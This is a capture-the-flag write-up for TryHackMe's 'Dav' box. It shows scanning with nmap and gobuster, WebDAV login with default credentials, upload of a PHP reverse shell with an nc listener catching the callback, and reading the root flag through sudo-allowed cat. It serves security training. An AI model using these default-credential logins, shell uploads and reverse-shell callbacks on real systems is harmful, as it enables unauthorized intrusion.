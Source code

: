 # 'Dav' box writeup
## Dav is a CTF box created by stuxnet and available on the [TryHackMe platform](https://tryhackme.com).
## Read about [WebDAV](https://en.wikipedia.org/wiki/WebDAV), [Dav default credentials](http://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html) and [Cadaver, the WebDAV client](https://docs.oracle.com/html/E10235_03/webdav007.htm)
# ![bg](images/background.jpeg?raw=true "Title")

## Foothold
+ **We deploy the machine and start with a nmap scan for open ports**

``nmap -sV -sC -oN scan1 10.10.62.166``

+ **From our result, we can see that the 80 port is open, which is running an Appache with a default page**

# ![nmap](images/nmap_dirb_scan.jpg?raw=true "nmap")

+ **Let's run a gobuster search too and see our results. It seems that a webdav service is running**

``gobuster dir -u http://10.10.62.166/ -w /usr/share/wordlists/dirb/common.txt``

# ![dirb](images/nmap_dirb_scan2.jpg?raw=true "dirb")

**Navigating to the /webdav directory, the login page shows up. We need some credentials, and searching on google we can find some**

# ![login](images/login.png?raw=true "login")

``user: wampp``

``pass: xampp``

+ **After we log in, we can see a file named `passwd.dav` inside the directory**

# ![webdav](images/webdav.jpg?raw=true "webdav")

+ **Reading the file, it seems to be some credentials with a hashed password. Trying to unhashed it, i realised it's nothing that we can do with it so i continued to read about WebDAV service. It has some similarities with the ftp, among with the cadaver: we can upload some files in that /webdav directory. Let's login with the cadaver, the WebDAV client, using the same default credentials**

``cadaver http://10.10.62.166/webdav/``

``Username: wampp``

``Password: xampp``

+ **Now, let's try to upload a reverse php shell. I use the [pentestmonkey reverse shell](https://github.com/pentestmonkey/php-reverse-shell). Get it and modify the $ip parameter with your tryhackme tunneled ip and then upload it on our webdav directory**

``put php-reverse-shell.php``

# ![php](images/php-reverse-shell.jpg?raw=true "php")

# ![php](images/uploaded.jpg?raw=true "php")

+ **It seems like our reverse shell was uploaded, so let's start a nc listener and access our php shell file**

``nc -lvnp 1234``

``http://10.10.62.166/webdav/php-reverse-shell.php``

# ![werein](images/werein.jpg?raw=true "in")

# User escalation

**And we're in. Let's spawn an interactive shell and read our first flag, located inside the home directory of the merlin user**

``python -c 'import pty;pty.spawn("/bin/bash")'``

# ![in](images/usermer.jpg?raw=true "user")

# Root escalation

+ **Let's run a ``sudo -l`` command to see what commands cand www-data user can run**

# ![sudol](images/sudol.jpg?raw=true "sudol")

+ **It seems that the we can run the cat command with super user privileges so we can read our root flag**

``sudo cat /root/root.txt``

# ![root](images/rootflagoz.jpg?raw=true "root")
